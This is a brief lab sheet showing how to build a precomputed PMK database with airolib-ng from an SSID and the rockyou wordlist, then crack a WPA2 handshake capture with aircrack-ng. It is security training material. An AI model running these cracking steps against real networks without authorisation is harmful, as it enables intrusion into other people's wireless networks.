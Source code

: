 
## Lab: WPA2 Precomputed Dictionary Attack with Airolib-ng

---

###  Goal

Generate a PMK database using `airolib-ng` to speed up WPA2 cracking.

---

###  Step-by-Step

1. Create database:

```bash
airolib-ng wpabase.db --import essid YourSSID
airolib-ng wpabase.db --import passwd /usr/share/wordlists/rockyou.txt
airolib-ng wpabase.db --batch
```

2. Crack:

```bash
aircrack-ng -r wpabase.db capture.cap
```

> This avoids re-deriving keys for each password.

---
